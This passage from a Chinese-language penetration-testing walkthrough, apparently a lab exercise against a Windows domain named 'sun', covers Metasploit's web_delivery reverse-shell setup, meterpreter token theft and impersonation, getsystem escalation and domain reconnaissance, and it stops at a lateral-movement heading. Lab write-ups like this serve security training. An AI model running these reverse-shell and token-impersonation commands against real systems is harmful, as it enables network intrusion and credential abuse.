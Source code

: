 ![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvlKLUv0iaptVsmyOf0e08UqhZA2hWkKEKAnGKojZwibTa7icKX309U2Kb8Q/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvlWJuC83HJgHJrszKtW9aKZSQVX0y1dqib4Sfh5iaMXVKz9ekLhM0LMoRw/640?wx_fmt=png)

当前用户直接就是 administrator 管理员账户。目标主机所在的网络环境还存在一个 192.168.138.0 的网段，并且存在一个名为 “sun” 的域环境。但是当前我们获得的用户权限却不能收集域信息，所以我们得给这台主机（Windows 7）上一个 meterpreter 并伪造一个权限较低的用户的令牌然后再来尝试收集域信息。

这里我们使用 metasploit 的 web_delivery 模块：

> Metasploit 的 Web Delivery Script 是一个多功能模块，可在托管有效负载的攻击机器上创建服务器。当受害者连接到攻击服务器时，负载将在受害者机器上执行。此漏洞需要一种在受害机器上执行命令的方法。特别是你必须能够从受害者到达攻击机器。远程命令执行是使用此模块的攻击向量的一个很好的例子。Web Delivery 脚本适用于 php，python 和基于 PowerShell 的应用程序。详情请看：[《使用 Metasploit web_delivery 反弹 shell》](https://mp.weixin.qq.com/s?__biz=MzU1NjgzOTAyMg==&mid=2247491804&idx=1&sn=38f69b0edca48414ffb6904dd6624894&chksm=&scene=21#wechat_redirect "《使用Metasploit web_delivery反弹shell》")

```
use exploit/multi/script/web_deliveryset target 2    # 选择使用powershell类型的payloadset payload windows/meterpreter/reverse_tcpset lhost 192.168.0.100exploit
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvl3xU7JbfdscVvkEJNcLQ3VsPCibBKYF4BaSyO085Lh76H69icbs9g1jnA/640?wx_fmt=png)

将上面生成的 payload 在目标主机上执行：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvlWKRhXtSYxPI8iaibtonUtdib10WBnkA61TQ4gQXhGmDSTwJOb6ErsIVbw/640?wx_fmt=png)

如上图，目标机 Windows 7 成功上线。

然后窃取一个低权限域用户 “SUN\leo” 的令牌：

```
getuid    #查看当前tokenuse incognito #加载incognitolist_tokens -u #列出AccessTokenimpersonate_token "SUN\leo" #模拟DEMO\douser用户rev2self   #返回到之前的AccessToken权限
```

但即便模拟了 SUN\leo 用户的令牌也无法执行域内命令。。。后来 `getsystem` 提升了个权限竟然可以了：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvl53wDyuBLpBnUcG4vxT9mUax6Fm9BBCD4OibEFgpXeQJibF9sp4gln1yA/640?wx_fmt=png)

查看域内主机：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvlCRJIEkZhPUegSKXzcBzmQlnGJ3N8Sabsa7yx9sicEFFjMq7SSBH0z9Q/640?wx_fmt=png)

查看域控制器：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvl9fCicfdCCib1YxtKeE0ff6md9ZCc9XEPFoZQvr1xDdNWEkw810h4avbw/640?wx_fmt=png)

查看域管理员：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvloFpZvzNVmicoVib4tdlElicOYsU4rQG5AVL15OrvCK9wgXVz0apk2RX1g/640?wx_fmt=png)

可知域控制器为 DC$，域管理员为 Administrator。ping 一下 DC$ 得到域控的 IP 为 192.168.138.138：

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8Qfeuvou8hHMHTXiaUzKoQn1wODDSvl5YuBE4kj0cYzj94hCL8KspoNg62PwMhO1t9vYaXuBM8e0ExK0y48icg/640?wx_fmt=png)

横向移动
----

### 路由转发与代理通道

